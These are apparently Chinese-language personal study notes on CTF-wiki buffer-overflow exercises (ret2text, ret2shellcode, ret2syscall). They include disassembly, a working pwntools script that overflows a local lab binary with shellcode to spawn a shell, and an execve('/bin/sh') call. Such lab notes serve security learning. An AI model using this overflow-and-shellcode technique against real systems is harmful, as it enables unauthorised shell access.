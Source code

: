printf在这里

![image-20220922113320814](images/image-20220922113320814.png)





#### ctfwiki rop2text

有时候真的很无语...为啥说网上百分之99的博客都是垃圾(包括我的)

里面一个细节不介绍,略过了,对新手就很不友好,真的是不行,还是《计算机安全导论 深度实践》这本书写得好



为啥这个不能直接用ida看呢? 为什么其他的可以?

拿个其他的回头做对比



很奇怪...为什么一样上举这种奇奇怪怪的例子....

```c
.text:080486A7                 lea     eax, [esp+1Ch]
.text:080486AB                 mov     [esp], eax      ; s
.text:080486AE                 call    _gets
```





#### ret2shellcode

怎么看出来这是bss段的????

.bss:0804A080                 public buf2 .bss:0804A080 ; char buf2[100]

看地址

![image-20220922161722086](images/image-20220922161722086.png)

```python
from pwn import *

sh = process("./ret2shellcode")
shellcode = asm(shellcraft.sh())

payload = shellcode.ljust(112,b'A') + p32(0x0804A080)

sh.sendline(payload)
sh.interactive()
```

这段代码的意思是, shellcode长度不够溢出的部分用A补齐,然后溢出后,将返回地址复写为shellcode的地址,然后就可以了



#### ret2syscall

execve("/bin/sh",NULL,NULL)
